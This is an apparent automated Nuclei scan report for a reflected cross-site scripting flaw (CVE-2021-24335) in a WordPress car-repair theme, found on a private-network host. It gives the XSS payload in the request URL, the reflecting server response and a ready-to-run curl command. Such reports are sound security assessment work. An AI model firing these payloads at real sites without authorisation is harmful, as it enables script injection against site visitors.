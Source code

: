### Car Repair Services < 4.0 - Reflected Cross-Site Scripting (XSS) (CVE-2021-24335) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-24335**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/car1/estimateresult/result?s=&serviceestimatekey=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:25 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Car Repair Services < 4.0 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2021, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | The Car Repair Services & Auto Mechanic WordPress theme before 4.0 did not properly sanitise its serviceestimatekey search parameter before outputting it back in the page, leading to a reflected Cross-Site Scripting issue |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-24335](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-24335) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /car1/estimateresult/result?s=&serviceestimatekey=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 239
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/car1/estimateresult/result?s=&serviceestimatekey=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2021-24335
- https://themeforest.net/item/car-repair-services-auto-mechanic-wordpress-theme/19823557
- https://m0ze.ru/vulnerability/[2021-02-12]-[wordpress]-[cwe-79]-car-repair-services-wordpress-theme-v3.9.txt
- https://wpscan.com/vulnerability/39258aba-2449-4214-a490-b8e46945117d

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36' 'http://192.168.198.179:8080/car1/estimateresult/result?s=&serviceestimatekey=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)